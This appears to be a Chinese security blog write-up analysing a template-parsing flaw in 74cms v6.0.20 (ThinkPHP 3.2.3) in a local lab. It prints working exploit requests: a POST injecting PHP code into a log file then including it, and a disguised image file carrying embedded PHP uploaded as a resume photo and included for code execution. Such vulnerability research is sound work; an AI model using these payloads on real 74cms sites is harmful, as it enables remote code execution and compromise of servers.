title: 骑士cms存在模板解析漏洞
no-emoji: false
date: 2020-12-15 10:27:32
tags:
top:
前端时间，骑士cms 发布了紧急风险漏洞升级通知，网上也有不少分析的文章，骑士cms 利用了 Thinkphp3.2.3 的框架，所以就想分析一下这个漏洞，对 Thinkphp3.2.3 的框架有一个初步的了解。
我们选用
74cms v6.0.20作为复现的版本，选取 phpstudy 自带的 apache + mysql 环境来进行安装。
根据官网发布的信息，我们大致可以判断出漏洞存在的位置是\Common\Controller\BaseController::assign_resume_tpl

我们在函数内部加入断点，根据函数存在位置，属于 Common 模块下的 Base 控制器中的assign_resume_tpl ，构造路由http://74cms.test/index.php?m=common&c=base&a=assign_resume_tpl&variable=1&tpl=2
并不能直接进入断点位置
然后我就直接搜索了 错误信息 [ WE CAN DO IT JUST THINK ] 通过一步一步向上寻找错误触发的位置，发现是无法加载模块：Common\Think\Think::halt
\Think\Think::appException
ThinkPHP/Library/Think/Dispatcher.class.php

最后发现在加载模块时会检测模块名，无法加载 Common 模块。Common 模块无法直接调用，所以我们需要找其他方法调用 Common 模块下的 Base 控制器中的assign_resume_tpl 方法。
我们注意到 Home 模块下的 IndexController 继承 FrontendController

FrontendController 继承 BaseController

所以我们通过构造路由http://74cms.test/index.php?m=home&c=index&a=assign_resume_tpl&variable=1&tpl=2

在第一次进行调试分析时，在关键地方加上断点，死活都进入不到断点定位的位置，但是相关功能已经执行，然后我发现会跟进一个文件 common~runtime.php 这个文件中乱七八糟的，但是里面的内容又好像是代码，通过查阅资料发现ThinkPHP的编译缓存文件~runtime.phpruntime.php 中缓存的编译内容，相当于把 index.php 引导的所有操作全部集成到 ~runtime.php 文件中。有了这个缓存的编译文件，index.php 在下次运行时，不再引导，而是直接检测是否存在 ~runtime.php 编译缓存文件，如果在，则直接运行 ~runtime.php。runtime.php 删除，就实现了调试自由。
我就将文件夹下的 common
http://74cms.test/index.php?m=home&c=index&a=assign_resume_tpl
POST:
variable=1&tpl=<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>data/Runtime/Logs/Home/20_12_17.log

http://74cms.test/index.php?m=home&c=index&a=assign_resume_tpl
POST:
variable=1&tpl=data/Runtime/Logs/Home/20_12_17.log
bmp 图片
#define test_width 16
#define test_height 7
<?php phpinfo();die();?>
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };注册普通用户完善自己的信息时，在上传照片/作品处上传构造的恶意文件

查看上传成功的文件位置

http://74cms.test/index.php?m=home&c=index&a=assign_resume_tpl
variable=1&tpl=data/upload/resume_img/2012/17/5fdb0459bba6a.bmp
在本地利用的是 windows 环境下的 phpstudy-php5.5.9，水泡泡师傅指点说，这个 trick 仅仅适用于 phpstudy 特定的 php 版本中才可以利用成功。